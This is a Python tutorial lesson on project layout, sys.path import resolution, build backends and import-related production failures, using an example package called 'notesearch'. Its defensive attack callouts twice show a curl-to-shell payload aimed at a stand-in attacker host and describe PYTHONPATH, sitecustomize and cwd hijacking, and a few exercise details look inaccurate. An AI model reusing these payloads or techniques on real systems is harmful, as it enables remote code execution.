This is why running a script that does `from notesearch import X` works in one cwd and fails in another. With the src layout, you must `uv sync` first (which installs `notesearch` into `site-packages`), then `import notesearch` works from anywhere.



The `sys.path` walk in colour: the two yellow nodes are the ones you control (cwd and PYTHONPATH — both are environment inputs that change between machines), purple is the immutable stdlib, green is where `uv sync` put your project (which is why it works after `uv sync`), red is the failure mode. Once you can read the colour, the script-vs-module gotcha becomes predictable: `python script.py` puts the script's *directory* at `sys.path[0]`, which is rarely where `notesearch` lives in a `src/` layout, so the search moves on to `site-packages` — and only succeeds if you `uv sync`'d. `python -m notesearch.cli` puts the *cwd* at `sys.path[0]`, which is also rarely the `src/` dir — same resolution, same happy path through `site-packages`. Either way, `uv sync` is what makes it work.

**Warning — Debugging — duplicate `sys.path` entries and the silent first-match-wins shadow.**

`sys.path` is a *list*, not a *set* — duplicates are allowed and the first match wins. The failure mode: a developer's `~/.bashrc` has `export PYTHONPATH=$PYTHONPATH:~/projects/notesearch/src` (added six months ago for a now-abandoned experiment), and the project's `.venv/` *also* has `notesearch` installed editable. `sys.path` ends up with both `~/projects/notesearch/src/notesearch/` *and* `.../.venv/lib/python3.12/site-packages/notesearch/` — and the first one wins. If the developer has an outdated `notesearch/indexer.py` in `~/projects/notesearch/src/notesearch/` (the abandoned experiment's version), the import `from notesearch.indexer import Indexer` resolves to the *old* `Indexer` class — which lacks the `register_tokenizer` method the developer just added. The symptom: `AttributeError: 'Indexer' object has no attribute 'register_tokenizer'` even after `uv sync` and a full IDE restart. The diagnostic: `uv run python -c "import notesearch.indexer; print(notesearch.indexer.__file__)"` — if the path is *not* in `.venv/.../site-packages/`, you have a `PYTHONPATH` shadow. Then `uv run python -c "import sys; [print(p) for p in sys.path if 'notesearch' in p.lower()]"` — every printed path is a candidate shadow. The fix: `unset PYTHONPATH` in the shell, remove the line from `~/.bashrc` / `~/.zshrc`, and re-run. The senior engineer's rule: `PYTHONPATH` is a debugging tool, never a deployment tool — its presence in any production shell, CI step, or Dockerfile is a bug. The grep: `rg 'PYTHONPATH' deploy/ k8s/ docker/ Dockerfile* .env*` should return nothing in production manifests; `PYTHONPATH` is the most common source of "works on my machine, fails in CI" import-resolution divergences.


### `[build-system]`: what hatchling does

```toml
[build-system]
requires = ["hatchling"]
build-backend = "hatchling.build"
```

**What this does:** Tells `pip`/`uv`/PyPI which build backend to use to turn your source tree into a wheel (the installable artifact). `hatchling` is one choice; others are `setuptools`, `flit`, `poetry-core`, `pdm-backend`.

**What the build backend does:** When you run `uv sync` (with `package = true`) or `uv build`, the backend:

1. Reads your `pyproject.toml`.
2. Identifies which files belong to the package (for `hatchling` with the src layout, it's `src/notesearch/**/*.py`).
3. Builds a wheel (`.whl` file) containing those files plus metadata.
4. Installs the wheel into `.venv/` (as an editable install by default with `uv`).

The `[build-system]` section is *required* by PEP 518. Without it, the build tool has no way to know which backend to use. For modern projects, `hatchling` is the recommended default.

**Production reality — pinning build backends with hashes, not just versions.**

The lesson says `requires = ["hatchling"]` (a bare name with no version constraint). The production version of that line is `requires = ["hatchling>=1.20,<2.0"]` (a range), and the lockfile pins the exact version *with a hash*. The reason: build backends run *at build time* with full filesystem and network access to your source tree — they are a supply-chain boundary as critical as any runtime dependency. The 2024 `xz` backdoor was a build-time compromise (the malicious payload was injected by a tampered `build.sh` that ran during the release tarball construction); the analogous Python attack is a compromised `hatchling` (or `setuptools`, or `poetry-core`) that injects code into the wheel at `uv build` time. The defences: (1) *Pin the build backend version range* — `requires = ["hatchling>=1.20,<2.0"]` prevents a surprise `hatchling 2.0` with a breaking change from breaking every build at once; (2) *Verify the hash in `uv.lock`* — `uv sync --frozen` will refuse to install a `hatchling` whose wheel hash does not match the lockfile; (3) *Pin the build backend to a private PyPI mirror* — for high-security environments, configure `[[tool.uv.index]] explicit = true` so the build backend is fetched only from your private mirror, never from public PyPI; (4) *Run `uv build` in CI with `--frozen`* — the `--frozen` flag applies to the build environment too, so a tampered `pyproject.toml` that bumps `hatchling` to a malicious version is caught at CI build time, not at publish time. The senior engineer's rule: `[build-system]` is a *production dependency* — it does not appear in `[project.dependencies]`, but it has the same supply-chain weight. Treat it with the same upgrade discipline: PR review, lockfile-hash verification, CI build-time test, and a private mirror for high-security environments. See the Failure 4 "build-backend upgrade that broke everyone's checkout" below for the production failure mode.


## Execution Trace

Assuming you have completed Lesson 07's setup, here's how to populate the layout and run it:

```bash
# From the project root (where pyproject.toml lives):

# 1. Create the directory structure (uv init --package already made src/notesearch/)
mkdir -p src/notesearch tests
touch src/notesearch/__init__.py src/notesearch/exceptions.py src/notesearch/tokenizer.py \
 src/notesearch/indexer.py src/notesearch/query.py src/notesearch/cli.py
touch tests/__init__.py tests/conftest.py tests/test_indexer.py

# 2. Edit each file to contain the code from "The Code" section above.

# 3. Re-sync to install the package into .venv/ (with package = true, this
# is automatic but explicit is better)
uv sync

# 4. Run the CLI via the entry point
uv run notesearch add 1 "FastAPI is fast"
uv run notesearch search "fastapi"

# 5. Run the CLI via python -m
uv run python -m notesearch.cli add 2 "Pydantic validates"
uv run python -m notesearch.cli search "pydantic"

# 6. Verify imports work from anywhere
cd /tmp && uv run python -c "from notesearch import Indexer; print(Indexer)"
```

What happens, in order:

1. **`mkdir -p src/notesearch tests`** creates the package and test directories.
2. **`touch ...`** creates empty files for each module.
3. **You edit each file** with the content from above.
4. **`uv sync`** notices that the project source has changed (the package's `__init__.py` is no longer the empty default from `uv init`). It rebuilds the editable install of `notesearch` into `.venv/`.
5. **`uv run notesearch add 1 "FastAPI is fast"`** — `uv` looks up the `notesearch` console-script entry point in `.venv/bin/notesearch`, which is a tiny wrapper script that calls `notesearch.cli:main()`. `main()` parses `["add", "1", "FastAPI is fast"]`, enters the `with Indexer(DefaultTokenizer()) as idx:` block, calls `idx.add_document(1, "FastAPI is fast")`, and prints "added doc 1". The `with` block exits; the `Indexer.__exit__` runs. Each search query creates a fresh `Indexer`, so the search would normally return `[]` (the index was not persisted). The demo above is intentionally simple — the academy's later sections add persistence.
6. **`uv run python -m notesearch.cli ...`** — same as above, but via `python -m`. Adds `cwd` to `sys.path[0]` (which doesn't matter because the package is installed).
7. **`cd /tmp && uv run python -c "from notesearch import Indexer"`** — confirms the package is installed (cwd-independent import). Without `uv sync`, this would fail with `ModuleNotFoundError: No module named 'notesearch'`.

## Common Mistakes

### Mistake 1: Flat layout with no install

```bash
# WRONG
cd /path/to/notesearch-flat # project root
python -c "import notesearch" # works because cwd is on sys.path
cd /tmp
python -c "import notesearch" # ModuleNotFoundError
```

The flat layout works only when you're in the project root. Tests run from the project root and accidentally pass; production (where cwd is anywhere) breaks.

**Warning — Fix: use the `src/` layout and `uv sync` to install the package.**


### Mistake 2: `from . import X` in a script (not a module)

```python
# WRONG
# my_script.py (run with `python my_script.py`)
from . import other # ImportError: attempted relative import with no known parent package
```

Relative imports require a parent package. A script run directly has no parent package.

**Warning — Fix: use absolute imports (`from notesearch import other`) in scripts. Reserve relative imports for modules inside a package.**


### Mistake 3: Circular import with both files importing each other at top

```python
# WRONG
# notesearch/indexer.py
from notesearch.tokenizer import DefaultTokenizer # at top

# notesearch/tokenizer.py
from notesearch.indexer import Indexer # at top — circular!
```

`ImportError: cannot import name 'Indexer' from partially initialized module 'notesearch.indexer'`.

**Warning — Fix: (a) refactor to remove the circular dependency (preferred), (b) use late binding (defer one import to the bottom of the file), or (c) move the import *inside* the function that needs it (lazy import). Option (c) is the slowest at runtime but the easiest to apply.**


### Mistake 4: Running a script with `python src/notesearch/cli.py`

```bash
# WRONG
python src/notesearch/cli.py # sys.path[0] is src/notesearch/, not the project root
# `import notesearch` fails because notesearch/ is now treated as the top-level package
```

**Warning — Fix: `python -m notesearch.cli` (which sets `sys.path[0]` to cwd and uses the installed package) or `uv run notesearch` (which uses the entry point).**


### Mistake 5: Forgetting `__init__.py` in tests

```bash
# OFTEN WRONG
tests/
├── test_indexer.py # no __init__.py
```

Without `tests/__init__.py`, pytest treats `tests/` as a namespace package and may have trouble with test collection if there are multiple test directories. The modern convention is to *add* `tests/__init__.py` (empty) to make `tests/` a regular package. Lesson 09 covers this in detail.

**Warning — Fix: `touch tests/__init__.py`. Or use `pytest`'s `rootdir` config — see Lesson 09.**


### Mistake 6: Module name collision with stdlib

```python
# WRONG
# notesearch/string.py — fine
# notesearch/tokenizer.py — fine
# notesearch/email.py — BAD: shadows stdlib email
```

If you name a module `email.py`, `json.py`, `string.py`, etc., and another module in your package does `import email`, Python may find *your* `email.py` instead of the stdlib's. Use distinct names.

**Warning — Fix: rename the module. Or use absolute imports everywhere — `import email` (stdlib) works because stdlib is on `sys.path` after your package's directory. But if your module's directory shadows it, you have a bug.**


**Danger — How an attacker thinks — stdlib shadowing as a supply-chain attack vector.**

The lesson frames the stdlib-shadowing bug as an *accident* ("you named your module `email.py` and it shadowed the stdlib"). The attacker's version is *intentional*: an attacker publishes a package named `notesearch` to PyPI whose top-level `__init__.py` is `import os; os.system("curl http://attacker/payload | sh")` — three lines, full shell. A developer runs `uv add notesearch` (intending to add the academy's `notesearch`), the malicious package is installed into `.venv/lib/.../site-packages/notesearch/`. But the developer also has a `notesearch/` directory at the repo root (leftover from a flat-layout migration). When the developer runs `python -c "import notesearch"` from the repo root, `sys.path[0]` is the repo root, and the *local* `notesearch/` directory wins — the malicious PyPI package is *not* the one that runs. But if the developer runs `uv run python -c "import notesearch"` (which respects the installed package), the *malicious* `notesearch` from PyPI is what runs. The defence is the lockfile hash: `uv.lock` records `sha256:...` for the legitimate `notesearch` package; a typosquatted or compromised version has a *different* hash, and `uv sync --frozen` refuses to install it. The senior engineer's rule: (a) every package on `sys.path` is a *code-execution surface* — know which directories are on `sys.path` and *who can write to them*; (b) the lockfile hash is the cryptographic boundary between your service and a compromised PyPI package — `uv sync --frozen` is the only acceptable install command in CI; (c) for high-value targets (a bank, a healthcare system, an infrastructure provider), use a private PyPI mirror with allow-listed packages and a *transparency log* (the equivalent of Go's `sumdb`) so a typosquatted package is rejected at the routing layer, not at the install layer. The Python ecosystem does not yet have a built-in transparency log (as of October 2026), so the private mirror with explicit allow-listing is the senior-engineer defence. See the `uv-Tooling-Workflows` lesson's typosquatting callout for the `[[tool.uv.index]]` configuration that implements the allow-list.


## Engineering Trade-Offs

### `src/` vs flat layout

| Layout | When |
| --- | --- |
| `src/` | Always, for new projects. Forces install; matches prod; catches packaging bugs at test time. |
| Flat | Legacy projects where migration is expensive. Sometimes for tiny single-file demos. |

`notesearch` uses `src/`. Lesson 09's tests assume the package is installed.

### Absolute vs relative imports

| Form | When |
| --- | --- |
| Absolute | Modern Python; preferred by PEP 8. Refactor-safe. |
| Relative | When the absolute path is awkward (e.g. deeply nested) or when refactoring the package name should not require changing every import. |

`notesearch` uses absolute throughout. The one exception is `from . import X` in tests (which we cover in Lesson 09).

### Editable vs static install

`uv sync` with `package = true` does an *editable* install by default — changes to `src/notesearch/*.py` are immediately visible in `.venv` without re-running `uv sync`. This is the dev-mode default.

For production (Docker, CI), you typically do a *static* install: `uv sync --no-editable` (or build a wheel and install it). Static installs are reproducible and don't depend on the source tree.

| Form | When |
| --- | --- |
| Editable | Development — instant feedback on code changes. |
| Static | Production/CI — reproducible; no source tree dependency. |

## When This Breaks: A Senior Engineer's Debugging Guide

The Common Mistakes section catalogued the smells; this section catalogues the *production failures* those smells produce when they meet a 3 a.m. on-call rotation. Each is presented as symptom → diagnosis → fix, the way an on-call engineer sees them.

### Failure 1: The circular import that only bites at 3 a.m.

**Warning — When this breaks: `ImportError: cannot import name 'Indexer' from partially initialized module 'notesearch.indexer'`**

**Symptom.** The on-call engineer is paged at 03:00 with "search service crash-looping in staging." The deploy log shows the new build pulled, the container started, and immediately exited with the circular-import traceback. The PR that introduced it passed CI — every test ran and was green — because pytest imported the modules in an order that happened to resolve the cycle. The production `gunicorn notesearch.app:app` import order does not.
**Diagnosis.** Run `uv run python -c "import notesearch.app"` from a fresh shell. If it raises the partially-initialized-module error, you have a cycle. The next step is to read the traceback bottom-up: the *last* frame is the import that triggered the re-entry. Open that file, find the top-of-file import of the *other* module in the cycle, and confirm both files import each other at module scope. The CI green was not a lie — pytest collected `test_indexer.py` first, which imported `notesearch.indexer`, which imported `notesearch.tokenizer`, which found `notesearch.indexer` already in `sys.modules` (partially initialized) and got `Indexer` because `class Indexer` had already executed by the time `tokenizer`'s import ran. The same modules, imported in the opposite order under gunicorn, hit the cycle before either `class` statement runs.
**Fix.** Don't panic. The cycle is mechanical, not architectural. Three escalating fixes, in order: (a) *lazy import* — move the offending `from notesearch.X import Y` *inside* the function that needs it; the import runs at call time, after both modules are fully loaded. (b) *late binding* — move the import to the *bottom* of the file, after the `class` statement has executed (this is the workaround `indexer.py` uses above). (c) *refactor* — extract the shared symbol into a third module that both importers depend on, breaking the cycle by removing the edge. Option (c) is the right answer; (a) and (b) are the pragmatic 3 a.m. fixes that get you back to green and leave a `# TODO: refactor circular import` comment for the morning. The morning refactor is non-negotiable — every late-bound import is a load-bearing comment that the next PR will silently delete.


### Failure 2: Tests pass on the developer's machine, fail in CI

**Warning — When this breaks: `ModuleNotFoundError: No module named 'notesearch'` in CI, green locally**

**Symptom.** The developer runs `uv run pytest` locally — green. Pushes to CI — the same command fails with `ModuleNotFoundError: No module named 'notesearch'`. The developer reproduces CI locally by running `pytest` (without `uv run`) and... it passes. The CI failure feels impossible.
**Diagnosis.** Two questions resolve it in 90 seconds. (1) *Is `notesearch` installed in the CI venv?* Run `uv run python -c "import sys; print([p for p in sys.path if 'site-packages' in p])"` in CI — if `site-packages` is on the path but `notesearch` is not in it, the `uv sync` step never installed the project (common cause: `package = false` in `pyproject.toml`, or the build backend was not declared). (2) *Is the developer's local `pytest` finding `notesearch` via cwd, not via install?* Run `cd /tmp && uv run python -c "import notesearch"` locally — if *this* fails, the developer's local green was a flat-layout illusion: cwd was on `sys.path[0]` because they ran `python` from the project root. CI runs from a checkout directory and from a different cwd, so the cwd-as-`sys.path` trick does not fire. The src layout exists *precisely* to make this failure mode impossible — `notesearch` is importable only via install, never via cwd.
**Fix.** (1) Ensure `pyproject.toml` has `package = true` (uv) or a `[build-system]` section with a backend (`hatchling`, `setuptools`). (2) Run `uv sync` in CI before `uv run pytest` — verify with `uv run python -c "import notesearch; print(notesearch.__file__)"` that the import resolves to `site-packages/notesearch`, not to `src/notesearch`. (3) Add a CI step that runs `cd /tmp && python -c "import notesearch"` — if it ever fails, the install is broken. The src layout makes this property cheap; the flat layout makes it impossible.


### Failure 3: The editable install that hides a broken wheel

**Warning — When this breaks: tests pass in dev, wheel is broken on PyPI**

**Symptom.** The team ships `notesearch 1.0` to PyPI. Users install it with `pip install notesearch` and report `ModuleNotFoundError: No module named 'notesearch.tokenizer'`. The team's local `uv run pytest` is green. The CI build that produced the wheel was green. The wheel is broken — `tokenizer.py` is not in it.
**Diagnosis.** The editable install (`.venv/lib/.../notesearch` symlinked to `src/notesearch/`) made every file in `src/notesearch/` importable, including `tokenizer.py` — even though `pyproject.toml` did not declare it as part of the package. The build backend (`hatchling`) followed its default rules and missed `tokenizer.py` because the developer had moved it to `src/notesearch/_impl/tokenizer.py` and forgotten to update `[tool.hatch.build.targets.wheel]`. The editable install saw the source tree; the wheel saw only what the build backend was told to include.
**Fix.** Two layers. (1) Build the wheel in CI and install it into a fresh venv before running tests: `uv build && uv run --with ./dist/notesearch-1.0-py3-none-any.whl pytest`. If `tokenizer.py` is missing from the wheel, this fails. (2) Run CI tests with `uv sync --no-editable` before `pytest` — the `--no-editable` flag forces a static install; if the build is broken, the install fails. The src layout is the *opportunity* to catch this; the static-install CI step is the *mechanism*. See [[16-Deployment-and-DevOps/GitHub-Actions-CI]] for the workflow that runs both the editable and the static test jobs.


### Failure 4: The build-backend upgrade that broke everyone's checkout

**Warning — When this breaks: every engineer's `uv sync` fails after a `pyproject.toml` change**

**Symptom.** The team upgrades `hatchling` from 1.18 to 1.20 in `pyproject.toml`'s `[build-system] requires`. The CI build passes (it has the new `hatchling`). Every engineer's `uv sync` on Monday morning fails with `Backend 'hatchling.build' is not available` or `TypeError: build_wheel() got an unexpected keyword argument 'config_settings'`. The engineers cannot run the tests, cannot develop, cannot ship hotfixes.
**Diagnosis.** The `uv.lock` file was updated by the engineer who made the change (their local `uv sync` pulled `hatchling` 1.20 and updated the lock). But `uv`'s build-backend isolation means `hatchling` is installed into an ephemeral build environment, not the project's `.venv/`. Engineers who pulled the new `pyproject.toml` but did not run `uv sync` to update the lock file still have a stale build environment. The 1.20 upgrade also changed a build-backend hook signature, and the team's `[tool.hatch.build]` config relied on the old hook signature. The build is broken at build time, not at runtime — and the engineer who made the change did not notice because their local `uv sync` happened to re-resolve the build environment cleanly.
**Fix.** Three layers. (1) *Pin build backends with hashes* — `uv lock --locked` and verify the lock file's hash for `hatchling` is in the lock. (2) *CI step that verifies the build environment is reproducible* — `uv sync --frozen && uv build` in CI; if the build environment cannot be reconstructed from the lock, the CI fails. (3) *Test the build backend upgrade in a feature branch* — the engineer who upgrades `hatchling` opens a PR, CI runs the full suite with the new backend, and the PR is merged only if every job is green. The senior engineer's rule: `[build-system]` is a *production dependency* even though it does not appear in `[project.dependencies]` — treat it with the same upgrade discipline as a runtime dep.


### Failure 5: The namespace package that broke when one team added `__init__.py`

**Warning — When this breaks: `import acme.auth` works, `import acme.billing` fails, both are installed**

**Symptom.** The organisation has two packages: `acme-auth` (provides `acme.auth`) and `acme-billing` (provides `acme.billing`), both using PEP 420 namespace packages (no `acme/__init__.py` in either). The `acme-auth` team adds an `acme/__init__.py` to their package (to add a `__version__` re-export). After the next release, users who install both `acme-auth` and `acme-billing` report `ModuleNotFoundError: No module named 'acme.billing'` — even though `acme-billing` is installed.
**Diagnosis.** The `acme/__init__.py` in `acme-auth` converts `acme/` from a namespace package to a *regular* package — and a regular package's `__path__` is *only* the directory containing the `__init__.py`. The `acme-billing` package's `acme/billing/` directory is on `sys.path` *as a contribution to the namespace*, but the regular package's `__path__` does not include it. `import acme.billing` looks in `acme/__path__`, finds only `auth/`, and fails. The `acme-auth` team's innocent `__init__.py` silently broke every other `acme-*` package in the organisation.
**Fix.** Two layers. (1) *Remove the `acme/__init__.py` from `acme-auth`* — namespace packages cannot have `__init__.py` at the namespace level in *any* contributing package. If `acme-auth` needs a `__version__`, put it in `acme/auth/__init__.py` (the subpackage, not the namespace). (2) *CI lint across the org* — every `acme-*` package's CI runs `find . -name "__init__.py" -path "*/acme/__init__.py"` and fails if any file matches. The namespace package contract is org-level, not package-level; the lint enforces it across all packages. The senior engineer's rule: namespace packages are an *all-or-nothing* decision — either every contributing package omits `__init__.py` at the namespace level, or none of them get to use the namespace.


## How an Attacker Thinks

A senior security engineer reading your import system looks for two things attackers love: *writable entries on `sys.path`* and *unpinned code that runs at import time*. The Python import system executes arbitrary code on the first import of any module — the module's top-level statements run, including `import` statements that pull in further code. An attacker who can put a file on `sys.path` can run arbitrary Python in your process, with your process's privileges, on first import. The four vectors below are the ones that have been used in real incidents.

**Danger — How an attacker thinks: `PYTHONPATH` as a privilege-escalation primitive**

The `PYTHONPATH` environment variable prepends directories to `sys.path`. If an attacker can set `PYTHONPATH` (via a misconfigured systemd unit file, a leaked `.env` that a CI step hoovers up, a shared dev machine where the previous user exported `PYTHONPATH=~/research`), every `python` invocation in that environment imports from the attacker's directory *first*. `import notesearch` finds `~/research/notesearch.py` before `site-packages/notesearch/`, and the attacker's module runs at import time with the process's privileges. The classic payload is `import notesearch; import os; os.system("curl http://attacker/payload | sh")` at module top level — three lines, full shell. The defence: never honour `PYTHONPATH` in production. Container images should set `PYTHONPATH=` (empty) or, better, `PYTHONNOUSERSITE=1` (disables the user site-packages directory too) and run `python -I` (isolated mode, ignores `PYTHON*` env vars and the user site). The grep: `rg "PYTHONPATH" deploy/ k8s/ docker/` should return nothing in production manifests. The senior engineer's question for every production Python process: *which directories on `sys.path` are writable by an attacker?* — those are the privilege-escalation primitives.


**Danger — How an attacker thinks: `usercustomize.py` and `sitecustomize.py`**

Python's `site` module (imported automatically at interpreter startup, unless `-S` is passed) looks for two files: `usercustomize.py` (in the user site-packages directory) and `sitecustomize.py` (in the global site-packages). Both run at startup, before any user code. An attacker who can write either file — via a shared dev machine, a CI runner that caches `~/.local/lib/python*/site-packages/`, or a typosquatted package that lands in user site — runs arbitrary code in every `python` invocation, including `python -c "import notesearch"` that the developer thinks is a harmless import check. The payload runs *before* `notesearch` is imported, so even a fully-pinned, fully-vendored, hashes-verified supply chain is compromised at the moment the developer types `python`. The defence: production containers run `python -S` (skip `site`) for any startup-critical process, or at minimum set `PYTHONNOUSERSITE=1` to disable the user-site lookup. The grep in CI: `rg "usercustomize|sitecustomize" .` should return nothing in your source tree. The senior engineer's reading: `sitecustomize.py` is a feature for legitimate startup hooks (telemetry, profiling) and an attack surface for everyone else — disable it where you do not need it.


**Danger — How an attacker thinks: `sys.path[0]` and the cwd-injection attack**

The script-vs-module rule (`python script.py` puts `script.py`'s directory at `sys.path[0]`) is also an attack surface. If a user runs `python ~/downloads/notesearch_cli.py` from `~/downloads/` (because an attacker convinced them to download a "search CLI helper" via a phishing email), and `~/downloads/` contains a malicious `notesearch.py` (or `notesearch/__init__.py`), the user's `import notesearch` inside `notesearch_cli.py` finds the malicious local file *before* the installed package. The installed package's hashes, signatures, and pinned version are irrelevant — the local file wins because `sys.path[0]` is the script's directory and first match wins. The defence is structural: never run scripts from a directory that contains other Python files you did not write. The senior engineer's rule for any "run this Python script from the internet" workflow: download to a clean directory, run with `python -I` (isolated mode), and `python -m` (module mode, which puts cwd at `sys.path[0]`, not the script's directory — so a malicious file *next to* the script is not auto-imported). The broader lesson: `sys.path[0]` is a feature for development convenience and a footgun for everything else. Production scripts do not rely on it.


**Danger — How an attacker thinks: the unpinned, unverified build dependency**

The `[build-system]` section in `pyproject.toml` runs *at build time* with the build backend's code, in your build environment. `requires = ["hatchling"]` means `hatchling` is fetched from PyPI and run against your source tree to produce the wheel. An attacker who compromises `hatchling` on PyPI (via account takeover, typosquatting on `hatchlng`, or a dependency-confusion attack on a transitive dep) runs arbitrary Python in your build environment at every `uv build` and every `uv sync` that triggers a build. The wheel that gets published is whatever the attacker's `hatchling` produces — including a `notesearch/__init__.py` that exfiltrates environment variables on import. The defence is *build provenance*: pin build dependencies with hashes (`uv lock --locked` and verify the lock file), use a private PyPI mirror for build backends, and verify the published wheel's hash against the build log. The supply-chain attack surface of Python is not the runtime imports — it is the *build-time* imports, because they run with the publisher's privileges and produce the artefact everyone installs. The senior engineer's question for every `pyproject.toml`: *who can change what runs at build time?* — that is the supply chain. See [[11-Authentication-and-Security/Threat-Model-First]] for the threat-modelling framework and [[16-Deployment-and-DevOps/GitHub-Actions-CI]] for the hash-pinning workflow.


## Production Reality

The Project Layout lesson is taught as a single-package decision; in production it is also a *monorepo* decision, a *publishing* decision, and a *startup-latency* decision. The four points below are what changes when the lesson's six-file `notesearch` meets a 200-engineer organisation and a 50-package monorepo.

**Production reality: the src layout at scale prevents the #1 packaging mistake**

The #1 packaging mistake in Python is shipping a wheel that does not contain all the modules your code imports. The src layout turns "tests passed" into "the wheel builds, installs, and tests pass on the installed artefact" — which is the property that catches the mistake at test time, not at user-complaint time. At scale (a 200-engineer org, 50 packages, 20 of them published to an internal PyPI), the property compounds: every package's CI runs `uv build && uv run --with ./dist/*.whl pytest`, the static-install test job catches the missing-module bug before publish, and the publishing step is gated on the static job's green. The mistake that the src layout prevents is not "you forgot a file" — it is "you forgot a file and your test suite did not catch it because cwd was on `sys.path`." At 50 packages, that mistake happens roughly once a quarter per org without the src layout; with the src layout and the static-install CI step, it happens roughly once a decade. The cost is one `uv build` per CI run (seconds); the benefit is the absence of an entire class of incident.


**Production reality: the editable-install tax and the cold-start cost**

The editable install (`uv sync` with `package = true`) is a dev-mode convenience: changes to `src/notesearch/*.py` are immediately visible without re-running `uv sync`. At scale, the editable install has two costs that the single-package lesson does not surface. (1) *Startup latency*: an editable install's `.pth` file redirects every `import notesearch.X` to the source tree, and the source tree's `__init__.py` runs every top-level statement — including `from notesearch.indexer import Indexer` re-exports. If `__init__.py` re-exports from 30 submodules and each submodule imports heavy deps (`sqlalchemy`, `pydantic`, `redis`), the `import notesearch` cost is 200–800 ms on a warm cache, multiple seconds on a cold cache. The CLI's `--help` is 200 ms slower than it should be. (2) *Editable-install staleness*: the `.pth` file points to a *path*, not a version; if a teammate checks out a different branch, the editable install silently serves the other branch's code. The fix is to ship non-editable in CI (the static-install test job from the previous callout) and reserve editable for local dev. The senior engineer's rule for `__init__.py`: re-export only the *public API* (the symbols a user types `from notesearch import X` for), never the implementation modules — heavy deps are imported in the implementation module, not the package root. See [[13-Performance-and-Observability/N-plus-1-and-Slow-Queries]] for the analogous N+1 problem in SQL; the import-time equivalent is "the package's `__init__.py` re-exports from N submodules, each pulling its own dep graph."


**Production reality: namespace packages for the multi-organisation library**

The lesson says "for `notesearch`, we use regular packages; namespace packages are for the multi-repo case." The multi-repo case is real: `google.cloud.bigquery`, `google.cloud.storage`, `google.cloud.pubsub` are three different PyPI packages, all contributing to the `google.cloud` namespace, with no central `google/__init__.py` coordinating them. The same pattern is used by `aws-cdk`, `azure-sdk`, and most large vendor SDKs. If your organisation publishes multiple Python packages that should share a top-level namespace (`acme.auth`, `acme.billing`, `acme.search`), namespace packages (PEP 420) are the correct primitive: no `__init__.py` in the `acme/` directory of any package; each package contributes its submodules; the namespace is split across `site-packages`. The failure mode at scale is the mixed-regular-and-namespace trap from the lesson's warning callout — if any one package adds an `acme/__init__.py`, that package's `acme/` wins as a regular package and *shadows* every other package's `acme/` submodules. The fix is a CI lint across the org's packages: `find . -name "__init__.py" -path "*/acme/__init__.py"` should return nothing. The senior engineer's rule: namespace packages are an *organisation-level* decision, not a per-package one — the org commits to "no `__init__.py` at the namespace level" or it does not, and the CI lint enforces the commitment.


**Production reality: the import-time cost of `__init__.py` re-exports at cold start**

Python's import system is single-threaded and synchronous at import time (the GIL is held; `import` statements are serialised by a per-module lock). At cold start (a fresh container, a fresh lambda, a serverless function invocation), every `import` is a disk read + a compile + an execute. The `notesearch/__init__.py` that re-exports `from notesearch.indexer import Indexer` pays the import cost of `indexer` *and* its transitive deps *at the moment someone types `import notesearch`*. If a user only wants `notesearch.tokenize`, they still pay for `Indexer`, `IndexBuildError`, `Tokenizer`, and the exception hierarchy. At scale (a serverless function that imports `notesearch` on every cold start, 10 million cold starts per day), the 200 ms import cost is 200 ms × 10M = 23 days of CPU per day, billed to the customer. The fix is *lazy re-exports*: `__init__.py` exposes only `__version__` and `__all__`; users who want `Indexer` write `from notesearch.indexer import Indexer` explicitly. The trade-off is discoverability (the user has to know the submodule path) versus cold-start cost. The senior engineer's question for every `__init__.py` re-export: *is this symbol used by more than 50 % of callers?* If yes, re-export. If no, leave it in the submodule. See [[10-Async-Python/Event-Loop-and-Coroutines]] for the analogous event-loop-warmup cost; the import-time cost is the synchronous-process equivalent.


## Exercises

### Beginner

1. Create a `notesearch/__init__.py` that re-exports `Indexer`, `Tokenizer`, and the exceptions. Verify `from notesearch import Indexer` works.
2. Move `parse_query` from `query.py` into a new `notesearch/query/__init__.py` (i.e. turn `query.py` into a `query/` package with multiple submodules). Discuss the implications.
3. Add a `notesearch/__main__.py` file that calls `cli.main()`. Now `python -m notesearch` (without the `.cli`) works. Discuss when this is preferable.

### Intermediate

4. Convert `notesearch` to use namespace packages (remove all `__init__.py` files). What breaks? What still works?
5. Build a `notesearch/conftest.py` at the package root (alongside `__init__.py`). What does pytest do with it? (Hint: it's different from `tests/conftest.py`.)
6. Create a deliberate circular import between `indexer.py` and `tokenizer.py`. Fix it three ways: (a) late binding, (b) lazy import inside the function, (c) refactor to extract a shared module. Compare the three solutions.

### Advanced

7. Build a workspace (Lesson 07's workspaces feature) with two packages: `notesearch-core` (the indexer) and `notesearch-cli` (the CLI). Make `notesearch-cli` depend on `notesearch-core`. Verify imports work across the workspace.
8. Use `importlib.resources` to read a packaged data file (`notesearch/data/stopwords.txt`). Discuss why this is preferable to `open("data/stopwords.txt")` for installed packages.
9. Build a plugin system where third-party packages can register tokenizers into `notesearch`'s registry via entry points (`[project.entry-points."notesearch.tokenizers"]`). Discuss the trade-offs vs the decorator-based registry from Lesson 02.
10. **The `sys.path` forensics drill with `uv run`.** In the project root, run `uv run python -c "import sys; [print(p) for p in sys.path]"` and write down every path. Now `cd /tmp` and re-run the same command — diff the two outputs. Then `PYTHONPATH=/tmp uv run python -c "import sys; [print(p) for p in sys.path]"` and verify that `/tmp` was prepended. Finally, `uv run python -c "import notesearch; print(notesearch.__file__)"` from `/tmp` and confirm the import resolves to `site-packages`, not the cwd. The skill: building the mental model that `sys.path` is the *only* thing Python's import system consults, and that `uv run`'s contribution is to make `site-packages` deterministic.
11. **The `python -m` vs `python script.py` resolution divergence.** In the project root, run `uv run python -m notesearch.cli add 1 "hello world"` — verify it succeeds (exit 0, prints `added doc 1`). Now run `uv run python src/notesearch/cli.py add 1 "hello world"` — verify it fails with `ImportError: attempted relative import with no known parent package` (because `cli.py`'s `from notesearch.indexer import Indexer` cannot resolve when `sys.path[0]` is `src/notesearch/`). Document the exact `sys.path` difference between the two invocations by running `uv run python -c "import sys; print(sys.path[0])"` (which prints cwd) versus `uv run python src/notesearch/cli.py -c "import sys; print(sys.path[0])"` (which prints `src/notesearch/`). The skill: proving the script-vs-module rule empirically, not just reading it.
